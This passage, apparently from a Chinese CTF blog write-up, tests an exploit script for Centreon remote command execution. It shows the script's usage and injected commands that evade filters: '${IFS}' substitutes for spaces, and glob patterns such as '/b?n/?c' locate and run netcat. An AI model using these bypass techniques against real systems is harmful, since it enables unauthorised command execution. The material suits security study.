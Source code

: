 ## exp测试
11月17日更新，周末终于有空了。
为了简化手动操作的繁琐，我修改了一下exp。这是下载地址：[https://github.com/Whale3070/ctf-coding/blob/master/centreon.py](https://github.com/Whale3070/ctf-coding/blob/master/centreon.py)，使用方式是`./centreon.py 要执行的命令`

![70](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/70.PNG)

成功查看了wget的版本，1.19.4

---

`./centreon.py "uname${IFS}-a"`

---


```
echo 123
123

```
---

```
echo /b?n/?s
/bin/ls /bin/ps /bin/ss

```
---


```
echo /b?n/?c
/bin/nc

```
---


```
 /b?n/?c -h

OpenBSD netcat (Debian patchlevel 1.187-1ubuntu0.1)

```
---
